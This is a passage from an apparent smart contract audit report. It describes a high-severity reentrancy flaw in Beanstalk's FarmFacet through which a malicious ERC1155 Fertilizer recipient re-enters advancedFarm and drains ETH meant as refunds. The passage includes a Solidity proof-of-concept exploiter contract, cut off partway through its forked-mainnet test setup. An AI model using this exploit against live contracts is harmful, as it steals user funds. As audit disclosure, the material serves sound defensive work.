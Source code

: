 Similar to the vulnerabilities in `DepotFacet` and `Pipeline`, `FarmFacet` Farm functions are also susceptible to the draining of intermediate value sent by the caller via reentrancy by an untrusted and malicious external contract. In this case, the attacker could be the recipient of Beanstalk Fertilizer, for example, given this is a likely candidate for an action that may be performed via `FarmFacet` functions, utilizing [`TokenSupportFacet::transferERC1155`](https://github.com/BeanstalkFarms/Beanstalk/blob/c7a20e56a0a6659c09314a877b440198eff0cd81/protocol/contracts/beanstalk/farm/TokenSupportFacet.sol#L85-L92), and because transfers of these tokens are performed "safely" by calling [`Fertilizer1155:__doSafeTransferAcceptanceCheck`](https://github.com/BeanstalkFarms/Beanstalk/blob/c7a20e56a0a6659c09314a877b440198eff0cd81/protocol/contracts/tokens/Fertilizer/Fertilizer1155.sol#L42) which in turn calls the `IERC1155ReceiverUpgradeable::onERC1155Received` hook on the Fertilizer recipient.

Continuing the above example, a malicious recipient could call back into the `FarmFacet` and re-enter the Farm functions via the `Fertilizer1155` safe transfer acceptance check with empty calldata and only `1 wei` of payable value. This causes the execution of the attacker's transaction to fall straight through to the refund logic, given no loop iterations occur on the empty data and the conditional blocks within the modifier are entered due to the (ever so slightly) non-zero `msg.value`. The call to `LibEth::refundEth` will succeed since`s.isFarm == 1` in the attacker's context, sending the entire Diamond proxy balance. When execution continues in the context of the original caller's Farm call, it will still enter the conditional since their `msg.value` was also non-zero; however, there is no longer any ETH balance to refund, so this call will fall through without sending any value as the conditional block is not entered.

**Impact:** A malicious external contract handed control of execution during the lifetime of a Farm call can reenter and steal intermediate user funds. As such, this finding is determined to be of **HIGH** severity.

**Proof of Concept:** The following forge test demonstrates the ability of a Fertilizer recipient, for example, to re-enter Beanstalk, draining funds remaining in the Diamond that should have been refunded to the original caller at the end of execution:

```solidity
contract FertilizerRecipient {
    bool exploited;

    function onERC1155Received(address, address, uint256, uint256, bytes calldata) external returns (bytes4) {
        console.log("entered exploiter onERC1155Received");
        if (!exploited) {
            exploited = true;
            console.log("exploiting farm facet farm call");
            AdvancedFarmCall[] memory data = new AdvancedFarmCall[](0);
            IBeanstalk(BEANSTALK).advancedFarm{value: 1 wei}(data);
            console.log("finished exploiting farm facet farm call");
        }
        return bytes4(0xf23a6e61);
    }

    fallback() external payable {
        console.log("entered exploiter fallback");
        console.log("Beanstalk balance: ", BEANSTALK.balance);
        console.log("Exploiter balance: ", address(this).balance);
    }
}

contract FarmFacetPoC is Test {
    uint256 constant TOKEN_ID = 3445713;
    address constant VICTIM = address(0x995D1e4e2807Ef2A8d7614B607A89be096313916);
    FertilizerRecipient exploiter;

    function setUp() public {
        vm.createSelectFork("mainnet", ATTACK_BLOCK);

        FarmFacet farmFacet = new FarmFacet();
        vm.etch(FARM_FACET, address(farmFacet).code);

```